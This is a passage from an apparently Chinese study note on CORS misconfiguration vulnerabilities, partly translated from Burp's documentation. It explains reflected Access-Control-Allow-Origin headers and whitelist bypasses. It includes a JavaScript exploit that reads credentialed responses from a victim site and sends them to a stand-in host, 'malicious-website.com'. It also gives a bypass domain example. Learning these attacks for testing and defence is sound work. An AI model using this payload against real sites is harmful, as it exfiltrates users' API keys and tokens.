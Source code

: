     ![image-20240419210211359](CORS/image-20240419210211359.png)
    说明存在 CORS 漏洞。
4. 最后根据流程可以看出，这个攻击是需要管理员访问攻击服务器下的脚本才会触发，有点像 CSRF，都需要点击，但是原理和 CSRF 不同。

## 3. 翻译 - 从 Vulnerabilities 开始理解性的翻译

1. 发现 Burp 官方的文档已经讲的很细节了，这里就直接翻译过来，顺带学习了。

### 3.1 服务器端的 ACAO（Access-Control-Allow-Origin）响应头和客户端指定的 ACAO 相同

1. 一些应用需要为相当多的其他域名提供访问权限，然而为了维持这样的白名单，服务端是需要持续的维护；同时任何的错误都可能导致业务出问题。所以有些应用图方便，便允许所有的域名访问服务端。

2. 如何定位这种情况呢？抓包后，客户端的 `Origin` 和服务器端的 `ACAO` 相同。

3. 想要利用的话，最好有 `Access-Control-Allow-Credentials: true`，这样就可能获得 API Key 或 CSRF token 等重要信息。

4. 基本的利用脚本放在攻击服务器上，待受害者访问：
    ```js
    // 发起一个异步请求
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
    req.withCredentials = true;
    req.send();
    
    function reqListener() {
    	location='//malicious-website.com/log?key='+this.responseText;
    };
    ```

### 3.2 Origin 头部的错误解析

1. 正常情况下，如果客户端的 `Origin` 是在白名单内的，那么服务器返回的 `ACAO` 就是 `Origin` 的内容。
2. 然而有些网站会将所信任网站的部分/所有子域名放入白名单中（即使有些子域名并不存在，以后可能会用到）。
3. 例如：`normal-website.com.evil-user.net` ，可能就可以绕过白名单。
